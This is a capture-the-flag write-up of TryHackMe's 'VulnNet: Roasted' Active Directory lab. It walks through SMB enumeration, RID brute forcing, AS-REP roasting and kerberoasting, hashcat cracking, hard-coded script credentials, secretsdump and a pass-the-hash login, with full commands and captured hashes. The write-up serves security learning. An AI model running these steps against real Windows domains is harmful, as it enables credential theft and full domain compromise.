


# VulnNet: Roasted
**Date:** March 31st 2022

**Author:** j.info

**Link:** [**VulnNet: Roasted**](https://tryhackme.com/room/vulnnetroasted) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>



<br>

## Objectives
- user.txt flag
- system.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sC -sV -Pn -T4 10.10.39.78`

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-03-30 14:46:54Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
9389/tcp open  mc-nmf  .NET Message Framing
Service Info: Host: WIN-2BO8M1OE1M1; OS: Windows; CPE: cpe:/o:microsoft:windows

```

<br>

## SMB Digging

Since there is no website on this machine I start by enumerating available SMB shares with **crackmapexec**:

`crackmapexec smb 10.10.39.78 -u test -p "" --shares`

```
SMB         10.10.39.78     445    WIN-2BO8M1OE1M1  [*] Windows 10.0 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:False)
SMB         10.10.39.78     445    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\test: 
SMB         10.10.39.78     445    WIN-2BO8M1OE1M1  [+] Enumerated shares
SMB         10.10.39.78     445    WIN-2BO8M1OE1M1  Share           Permissions     Remark
SMB         10.10.39.78     445    WIN-2BO8M1OE1M1  -----           -----------     ------
SMB         10.10.39.78     445    WIN-2BO8M1OE1M1  ADMIN$                          Remote Admin
SMB         10.10.39.78     445    WIN-2BO8M1OE1M1  C$                              Default share
SMB         10.10.39.78     445    WIN-2BO8M1OE1M1  IPC$            READ            Remote IPC
SMB         10.10.39.78     445    WIN-2BO8M1OE1M1  NETLOGON                        Logon server share 
SMB         10.10.39.78     445    WIN-2BO8M1OE1M1  SYSVOL                          Logon server share 
SMB         10.10.39.78     445    WIN-2BO8M1OE1M1  VulnNet-Business-Anonymous READ            VulnNet Business Sharing
SMB         10.10.39.78     445    WIN-2BO8M1OE1M1  VulnNet-Enterprise-Anonymous READ            VulnNet Enterprise Sharing
```

There isn't anything in the **IPC$** share, and we only have access to the two others starting with VulnNet.

Checking out the **VulnNet-Business-Anonymous** share:

`smbclient -N \\\\10.10.39.78\\VulnNet-Business-Anonymous`

There are 3 files which I mget:

```
smb: \> recurse
smb: \> prompt
smb: \> lcd files
smb: \> mget *
getting file \Business-Manager.txt of size 758 as Business-Manager.txt (0.9 KiloBytes/sec) (average 0.9 KiloBytes/sec)
getting file \Business-Sections.txt of size 654 as Business-Sections.txt (1.0 KiloBytes/sec) (average 0.9 KiloBytes/sec)
getting file \Business-Tracking.txt of size 471 as Business-Tracking.txt (0.9 KiloBytes/sec) (average 0.9 KiloBytes/sec)
```

And the **VulnNet-Enterprise-Anonymous** share also has 3 files that I download:

```
getting file \Enterprise-Operations.txt of size 467 as Enterprise-Operations.txt (0.8 KiloBytes/sec) (average 0.8 KiloBytes/sec)
getting file \Enterprise-Safety.txt of size 503 as Enterprise-Safety.txt (1.2 KiloBytes/sec) (average 1.0 KiloBytes/sec)
getting file \Enterprise-Sync.txt of size 496 as Enterprise-Sync.txt (1.3 KiloBytes/sec) (average 1.1 KiloBytes/sec)
```

Looking through these files we have a few potential users:

```
Alexa Whitehat
Jack Goldenhand
Tony Skid
Johnny Leet
```

Let's see if we can find their usernames by **brute forcing RID with crackmapexec**. All of the normal accounts show up but we also see usernames listed for the 4 people above:

`crackmapexec smb 10.10.39.78 -u test -p "" --rid-brute`

```
SMB         10.10.39.78     445    WIN-2BO8M1OE1M1  1105: VULNNET-RST\a-whitehat (SidTypeUser)
SMB         10.10.39.78     445    WIN-2BO8M1OE1M1  1109: VULNNET-RST\t-skid (SidTypeUser)
SMB         10.10.39.78     445    WIN-2BO8M1OE1M1  1110: VULNNET-RST\j-goldenhand (SidTypeUser)
SMB         10.10.39.78     445    WIN-2BO8M1OE1M1  1111: VULNNET-RST\j-leet (SidTypeUser)
```

Now that we have usernames to work with we can see if any are **vulnerable to ASREPRoast**. I create a text file called users.txt with all 4 usernames in it and run:

`crackmapexec ldap 10.10.39.78 -u users.txt -p '' --asreproast output.txt`

```
SMB         10.10.39.78    445    WIN-2BO8M1OE1M1  [*] Windows 10.0 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:False)
SMB         10.10.39.78    445    WIN-2BO8M1OE1M1  $krb5asrep$23$t-skid@VULNNET-RST.LOCAL:fda3549c78bd50dd62b0df1ba3209579$8dc7bb79200ea02762eb185b09f24279b53ddc947b542465bacb4688d8632b2c84b379e77df8dd6edaa763646af86c3e45cc832e251af39a07529d3cc7e13cae885e1a3a58609f8a8841ed336412c17d90d52645874f5b4ff07bb08b9d132fbe44f5b49487ea20021340d46b1b4527470a8d48209e91f9e72d5bbb3706a68765b443ce514efb91e1603c47876fcf5af52c031d7dcd9a9312007c4e902f0f91aba66a569626d1c6214ba9ef6ad4d1941f61c665a2b7e8880a3fcd8340618d48538b8d0440da8063d97f638b071261179604fbcec425d22f4b4d1750b7bc6b851d95317919c69db6f72ef29aaf70389aa1484091740920
```

We find that **t-skid** is vulnerable and grab his hash. Let's try and crack it with **hashcat**:

`hashcat -m 18200 -w 3 -D 1,2 output.txt rockyou.txt`

```
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: output.txt
Time.Started.....: Wed Mar 30 14:16:49 2022 (2 secs)
```

Within a couple seconds it's cracked and now we have some credentials!

Let's also check for **kerberoasting** using **crackmapexec**:

`crackmapexec ldap 10.10.39.78 -u t-skid -p '<REDACTED>' --kerberoasting test.out`

```
SMB         10.10.39.78    445    WIN-2BO8M1OE1M1  [*] Windows 10.0 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:False)
LDAP        10.10.39.78    389    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\t-skid:<REDACTED> 
LDAP        10.10.39.78    389    WIN-2BO8M1OE1M1  [*] Total of records returned 4
LDAP        10.10.39.78    389    WIN-2BO8M1OE1M1  sAMAccountName: enterprise-core-vn memberOf: CN=Remote Management Users,CN=Builtin,DC=vulnnet-rst,DC=local pwdLastSet: 2021-03-11 14:45:09.913979 lastLogon:2021-03-13 18:41:17.987528
LDAP        10.10.39.78    389    WIN-2BO8M1OE1M1  $krb5tgs$23$*enterprise-core-vn$VULNNET-RST.LOCAL$CIFS/vulnnet-rst.local*$cc07308b37d5f322f1d6f193cc0c6b31$e361a9167068b7df4b941df12339f3decf45634aea0a0ba238aeed68f49028be0adfd00bd210fd9f01b54bde9afecbd6060dcbfa89158010be5c0bcc87627dfaf96c1bd52971afbc2bac8b014b6f1c69a1992fe81505fec23996050c828c162c601458178536063d46b327e4ccd10994e2e6f6f5ce692baf25865ae7ab411e9282f602662cc1ef7fe70764610a7c781213121e4c5ddb4d96eb38fab751f12c0d7acb91eea264e330393500c6b08a821b1780d25a345d802893e5eb540c18630c71c145638c9e9619270db1b96ba6bf639d713e7543738a523594a3ab93d4d76728006b44cb863bbfc6a50a435811c942da98f3e99ee22ccbaf058caa2f4137275a71ee04f16b7cb13154254fd310714d4820676c333a77326b05beb130ed09cded1dbd834c8e93fda7b2f95dae53e7e66e44d45ef6a421d59a0b3658a8dd41a016b9e074ba3a7cb3385fd281335ab33a16f6f4bf1c058a4d48b3dbf706c63ddac52983b5a6ce3c61adb1761f7d76a1001dec454c6d1ab919b2b9e5bdd1630d317fa7f2087a7d4cfcc869745f07f364759b387480891a47de66e3dabe5dd53b71411afb2e6ccd8fe57910daecc2c61991e86b3be1ca7af1a4d24f8fe8eafd59b44fa0d8b25ab11b967826f8ba5fb60b3760b6154196f28b3dea3e9a5e909fd9c753f65046ffc9ccb4e94beb4c0da598d823259098771f920ad8527676fc952633b4f45fb02b3c2fcd781ce22e3b8c3367b93e77e30e219f14847ce4ef9db91707f59ff95f20169628890379b3c752db6ae29c9a99b0058234db75413397b66b89063f374bd64ab5438f061f1aaa0e55b49745710a657ec0384433bd11bc3dfbd6736e3edaa833e2f66ccdda3145c231d80350f2bd18612f3e1ea4389c363a4b3fcda76647a3120a716fc29c592103972f726d279ede0cbca72efa32b49465c117fbb0a098d2a5ea5c88caec4899fb3ccfc4d7f639a72af321a8527d7699fc0a1d00eb06e6eda51efc4eb4fbb9083c685b5274f6e1850d9254139127bb76c64b19769f9555eef898cd72e60ad1e18697141831d32b1e384ecd7f5bfeeff60ac0f3f8b8ec9b9d237871c79dcef09317f336583ade184dd141cca5a92704e778bd6a38e9195bad1bf4351d3cc70e617257286bbeda145936fd05241a86352eafb023ba3cfc6326759953b1b58dfd32d16e8b71da514f3dfe18af96cd8e1e34e016aceaab3f274e9ad94a137bb0b8aa33890d52e6dd86ce8c9645b169e22a12cd834db86b4fe84267676d9e6ac41db95b988b75c0eab89762eb48c0b368a563049dc5ef36990efb143f9c29476b99590b2883f13b2e61c233c4518caaefedee7ae5e296441cf1d1a94e834eea3b97064251ab0bb0b135fc18719328f1a08187
```

We find that user **enterprise-core-vn** is vulnerable and capture their hash. Running that hash through **hashcat**:

`hashcat -m 13100 -w 3 -D 1,2 test.out rockyou.txt`

```
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*enterprise-core-vn$VULNNET-RST.LOCAL$C...a08187
Time.Started.....: Wed Mar 30 14:55:44 2022 (2 secs)
```

And we have another set of credentials to use.

I use **crackmapexec** to check the shares again with both sets of credentials, and both have read access to the **NETLOGON** and **SYSVOL** shares, which we couldn't access previously. Taking a look in **NETLOGON**:

`smbclient \\\\10.10.39.78\\NETLOGON -U t-skid`

```
Enter WORKGROUP\t-skid's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Mar 16 19:15:49 2021
  ..                                  D        0  Tue Mar 16 19:15:49 2021
  ResetPassword.vbs                   A     2821  Tue Mar 16 19:18:14 2021

                8771839 blocks of size 4096. 4513527 blocks available
```

And looking at **SYSVOL**:

```
smb: \> recurse
smb: \> prompt
smb: \> lcd files
smb: \> mget *
NT_STATUS_ACCESS_DENIED listing \vulnnet-rst.local\DfsrPrivate\*
getting file \vulnnet-rst.local\scripts\ResetPassword.vbs of size 2821 as vulnnet-rst.local/scripts/ResetPassword.vbs (8.7 KiloBytes/sec) (average 8.7 KiloBytes/sec)
getting file \vulnnet-rst.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\GPT.INI of size 22 as vulnnet-rst.local/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI (0.1 KiloBytes/sec) (average 4.4 KiloBytes/sec)
getting file \vulnnet-rst.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\GPT.INI of size 22 as vulnnet-rst.local/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI (0.1 KiloBytes/sec) (average 2.8 KiloBytes/sec)
getting file \vulnnet-rst.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol of size 2798 as vulnnet-rst.local/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol (3.1 KiloBytes/sec) (average 2.9 KiloBytes/sec)
getting file \vulnnet-rst.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 1146 as vulnnet-rst.local/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (2.7 KiloBytes/sec) (average 2.9 KiloBytes/sec)
getting file \vulnnet-rst.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 3802 as vulnnet-rst.local/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (6.2 KiloBytes/sec) (average 3.6 KiloBytes/sec)
```

I look through all of these files and the only thing interesting ends up being the **ResetPassword.vbs** script that has hard coded credentials for **a-whitehat** in it:

```
strUserNTName = "a-whitehat"
strPassword = "<REDACTED>"
```

Taking a look at the SMB shares with this new user shows we have admin privileges!

` crackmapexec smb 10.10.39.78 -u a-whitehat -p "<REDACTED>" --shares`

```
SMB         10.10.39.78   445    WIN-2BO8M1OE1M1  [*] Windows 10.0 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:False)
SMB         10.10.39.78   445    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\a-whitehat:<REDACTED> (Pwn3d!)
SMB         10.10.39.78   445    WIN-2BO8M1OE1M1  [+] Enumerated shares
SMB         10.10.39.78   445    WIN-2BO8M1OE1M1  Share           Permissions     Remark
SMB         10.10.39.78   445    WIN-2BO8M1OE1M1  -----           -----------     ------
SMB         10.10.39.78   445    WIN-2BO8M1OE1M1  ADMIN$          READ,WRITE      Remote Admin
SMB         10.10.39.78   445    WIN-2BO8M1OE1M1  C$              READ,WRITE      Default share
SMB         10.10.39.78   445    WIN-2BO8M1OE1M1  IPC$            READ            Remote IPC
SMB         10.10.39.78   445    WIN-2BO8M1OE1M1  NETLOGON        READ,WRITE      Logon server share 
SMB         10.10.39.78   445    WIN-2BO8M1OE1M1  SYSVOL          READ            Logon server share 
SMB         10.10.39.78   445    WIN-2BO8M1OE1M1  VulnNet-Business-Anonymous READ            VulnNet Business Sharing
SMB         10.10.39.78   445    WIN-2BO8M1OE1M1  VulnNet-Enterprise-Anonymous READ            VulnNet Enterprise Sharing
```

We're now able to access the **DfsrPrivate** folder in the **SYSVOL** share but there isn't anything in it. We can also connect over to the C: of the system but it would easier to just login with this user instead of continuing to use crackmapexec / SMB.


<br>

## System Access

I try and connect over to this machine using the credentials we found for **a-whitehat** using **evil-winrm**:

`evil-winrm -i 10.10.39.78 -u a-whitehat -p <REDACTED>`

And we get a shell:

```
*Evil-WinRM* PS C:\Users\a-whitehat\Documents>
```

<br>

## System Enumeration

Running a `Get-LocalUser` shows us that the following:

```
Name               Enabled Description
----               ------- -----------
Administrator      True    Built-in account for administering the computer/domain
Guest              True    Built-in account for guest access to the computer/domain
krbtgt             False   Key Distribution Center Service Account
enterprise-core-vn True
a-whitehat         True
t-skid             True
j-goldenhand       True
j-leet             True
```

I don't find any files in any of the directories for **a-whitehat** and take a look in the **Users** folder to see which users are on the system:

```
    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        3/31/2022   7:47 AM                a-whitehat
d-----        3/13/2021   3:20 PM                Administrator
d-----        3/13/2021   3:42 PM                enterprise-core-vn
d-r---        3/11/2021   7:36 AM                Public
```

Looking around in the **Administrator** directory shows the **system.txt** flag on the desktop but we can't view it currently.

Looking in the **enterprise-core-vn** desktop shows us the **user.txt** flag and we can view that giving us our first objective:

```
*Evil-WinRM* PS C:\Users\enterprise-core-vn\Desktop> type user.txt
<REDACTED>
```

Taking a look at `net user a-whitehat` shows us that she's a member of the **domain admins** group so we should hopefully be able to use that to our advantage:

```
Global Group memberships     *Domain Admins        *Domain Users
```

<br>

## Privilege Escalation

Since she's a domain admin we should be able to grab some hashes from the domain controller using **secretsdump**. I run the following:

`secretsdump.py vulnnet-rst.local/a-whitehat:<REDACTED>@10.10.39.78`

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
```

We find the **Administrator hash** and with that we can use a **pass the hash** attack to login to that account:

`evil-winrm -i 10.10.39.78 -u administrator -H "<REDACTED>"`

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
vulnnet-rst\administrator
```

**NOTE:** If you're following along you'll want to use only the last part of the hash beginning with **c259** when passing the hash over.

I change over to the ** Administrator Desktop folder** and run the following:

`*Evil-WinRM* PS C:\Users\Administrator\Desktop> type system.txt`

```
<REDACTED>
```

<br>

With that we have our final objective and have completed this CTF!



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration using **nmap**
- Using **crackmapexec** to:
	+ Enumerate SMB shares
	+ Brute force RID's to get usernames
	+ ASREPRoasting the t-skid account since it didn't require pre-authentication
	+ Kerberoasting the enterprise-core-vn account
- Using **smbclient** to view and download files from **SMB** shares
- Using **hashcat** to crack password hashes
- Finding credentials hard coded into a VB script
- Getting a shell using **Evil-WinRM**
- General system enumeration to find that our user is a memeber of the domain admins group
- Performing a **pass the hash** attack using **Evil-WinRM** to gain administrator privileges

<br>

Many thanks to:
- [**SkyWaves**](https://tryhackme.com/p/SkyWaves) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)
